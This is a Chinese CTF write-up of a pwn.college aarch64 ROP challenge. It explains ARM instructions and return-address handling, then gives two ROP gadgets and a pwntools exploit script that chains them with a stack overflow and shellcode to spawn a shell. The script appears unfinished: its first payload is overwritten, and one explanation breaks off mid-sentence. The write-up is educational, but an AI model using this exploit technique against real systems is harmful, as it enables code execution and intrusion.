




# 前言
最近是在[Rocket](https://rocketmadev.github.io/)安利下去看了[pwncollege](https://pwn.college/)这个网站，然后感觉还不错，armdojo已经快刷完了，就差一题！！！但是最后一题好难啊，看了好几个小时没思路。
# arm中rop所需要了解的知识
首先arm的rop和x86中差了非常多，所以这里介绍一下差别，顺便带一下道场中别的知识包括汇编指令和在栈溢出学习中发现的不同。
## aarch64汇编指令
1. aarch64是arm的64位的叫法，就像x86-64和x86一样。
2. arm中的寄存器有整整30个！
其中函数传参时前八个参数使用X0-X7，后续参数放在栈上。
而syscall时前八个参数依然是X0-X7
以及很重要的X30寄存器也就是LR寄存器，其作为函数返回地址保存的寄存器，函数返回将会无条件跳转至X30。
3. arm架构下，所有的指令是4个字节定长的！！其带来了很多神奇的与x86不同的特性，按我的话说，成也定长，败也定长。
    1.  细说一下，比如"mov rax, 0x2024202520262027"这个指令可以直接在x86中一步完成，
        但是在arm中，收到指令定长为4的限制，无论如何不可能出现超过两个字节的立即数。
        arm的解决办法如下
        ```asm
        MOV  X0 0x2027
        MOVK X0 0x2026, LSL #16
        MOVK X0 0x2025, LSL #32
        MOVK X0 0x2024, LSL #48
        ```
        通过位移的方式赋值，最多一次赋值两个字节。
    2.  然后是add,sub,smull,sdiv指令等等，其支持三个操作数的特性使其比x86更加灵活。
        ```asm
        ADD X0, X1, X2
        ```    
        就是`X0 = X1 + x2`的功能，可以发现其在x86中是完全不可能一条指令实现的。
        这只是最简单的，更详细的可以在[arm开发者手册通常指令](https://developer.arm.com/documentation/dui0802/b/A64-General-Instructions/A64-general-instructions-in-alphabetical-order)[arm开发者手册数据转换指令][def]中找到更详细的内容
    3.  还有很重要的`LDR`和`LDP`指令，是从地址中加载数据到寄存器。
        ```asm
        MOV X3, sp
        LDR X0, [X3]
        ```
        LDR是`load addr`加载地址，LDP是`load addr pair`成对加载地址
        比如这条指令从[X3+8]的位置加载出来0x10的内存，前0x8的内存加载给X1,后0x8的内存加载给X2。
        ```asm
        LDP X1, X2, [X3, #0x8]
        ```
        与`LDR`和`LDP`对应的是`STR`和`STP`，其功能显然就是反过来，所以懒得说了。
    4.  arm有三种索引方式，`preindex``postindex``offset`，其原理都是基于一个基址寄存器加上一个偏移取地址。
        1. 比如`LDR X0, [SP , #0x90]`就是offset取地址，其不改变SP的值直接从[SP+0x90]的位置取出0x8大小的内存赋值给X0。
        2. `LDR X0, [SP, #0x90]!`则是先对SP+=0x90，再从[SP]的地址取出0x8大小的内存赋值给X0
        3. `LDR X0, [SP], #0x90`则是先从SP取出内存赋值，再使得SP+=0x90
        可以发现其功能比x86强大很多，也许是因为固定四个字节的指令长度强迫其必须在一条指令中实现更多功能，否则如果按照x86的设计逻辑，代码段的长度会长非常多。
        不过有一点非常可惜的是arm中没有直接的push和pop指令，而是通过LDR来实现push和pop等对于栈的操作。
接下来具体的到题目中分析

# ARM-ROP
arm中函数返回地址的取值并非x86中直接从栈上取，而且我目前了解到clang和gcc编译的arm程序的返回地址取值都有着一定区别。这题是clang编译的，所以首先说clang编译的程序机制。

`RET`指令在x86中意味着`pop rip`，而在arm中意味着`B X30`，B是arm的无条件跳转指令，也就是说每当arm函数返回时，其无条件跳转至X30的地址。

与X30一对的是X29，X29类似于一个rbp，作为辅助来维持栈的结构，但是很少被真正用来索引，我也没有见过像x86中的`mov rsp, rbp`这种可以利用rbp的情况发生，甚至连函数内部的变量索引都很少用到X29。

每当新函数被调用，就会将X29，X30的值保存在栈上，然后在返回时取出并且跳转至X30，看似栈溢出劫持程序流的思路依然可行对吧，但是实际上这比x86中难了一个档。



图中可以看到，程序从[SP+0x50]的位置加载出X29和X30，当我们在challenge函数中存在栈溢出时，对于challenge函数的返回地址劫持就成功了。

可以对比一下x86和arm的区别
```asm
mov rsp, rbp
ret
```
x86固定从栈顶取返回地址。而arm的返回地址固定从SP+多少多少取，而这个值就取决于函数栈帧大小，所以从sp到sp+多少多少这段栈帧都必须被覆盖才能写到下一个函数的返回地址。
而且，arm的`RET`指令还依赖于`LDP X29, X30, [SP],#0x20`，必须由该指令加载X30后RET才能正确返回。
而且，arm还是定长指令，不存在x86中可以通过错位构造一些gadget的情况。
还有就是，x86中经常出现函数末尾pop来恢复寄存器然后返回，但是在arm中我经常只能看到对于X19和X20的恢复，也许是因为arm的寄存器太多了，太阔了吧QAQ

说了这么多，还是上图片吧。这样讲就很明显了，由于


# 程序分析
arm道场系列里第一个module是熟悉一下aarch64的各种指令，手写各种指令做一下简单操作。第二个module是rop，所以贯穿始终的都是超长超大的栈溢出。


main里面几乎没有任何内容，然后是challenge函数。

直接给了一个栈地址，然后给了超大栈溢出。
还有就是该函数是静态编译的，所以有特别多gadget。

由于上面说到的种种困难，我在寻找gadget时有点卡住了，不过最后，让我找到了非常好用的两个gadget
```
0x43e980 : ldp x19, x20, [sp, #0x10] ; ldp x21, x22, [sp, #0x20] ; ldp x23, x24, [sp, #0x30] ; ldp x25, x26, [sp, #0x40] ; ldp x27, x28, [sp, #0x50] ; ldp x29, x30, [sp], #0x130 ; ret
# x19-x30

0x42f278 : ldr x3, [x21, #0x38] ; mov x1, x23 ; mov x2, x20 ; mov x0, x19 ; blr x3
```
单单通过栈就能控制x19-x30的寄存器，然后再控制x0，x1，x2，x3，通过x3继续控制程序流，不得不说，还好这题给了栈的值，要不就没法通过x21控制x3了。
## exp
```python
from pwn import *
import os
os.environ['QEMU_LD_PREFIX'] = '/usr/aarch64-linux-gnu'
context(terminal = ['tmux','splitw','-h'], arch = "aarch64", log_level = "debug")
io = gdb.debug('./pwn')

io.recvuntil(b'at: ')
stack = int(io.recv(0xe), 16)
print(hex(stack))

shellcode = asm(shellcraft.aarch64.sh())

payload = b''
payload += b'/flag\x00' + p64(0x43E568) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x43e980) # x30
payload += p64(0x0) + p64(0x42f278) # x29, x30
payload += p64((int(stack/0x1000)*0x1000)) + p64(0x7) # x19(x0), x20(x2)
payload += p64(stack + 6 - 0x38) + p64(0x0) # x21, x22
payload += p64(0x1000) + p64(0x0) # x23(x1), x24
payload += p64(0x0) + p64(0x0) # x25, x26
payload += p64(0x0) + p64(0x0) # x27, x28
payload += shellcode + b'\x00'*(0xD0-len(shellcode))
payload += p64(0x0) + p64(stack + 0xa7)

payload = b''
payload += b'/flag\x00' + p64(0x0) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x401878) # x30
io.send(payload)

io.interactive()
```
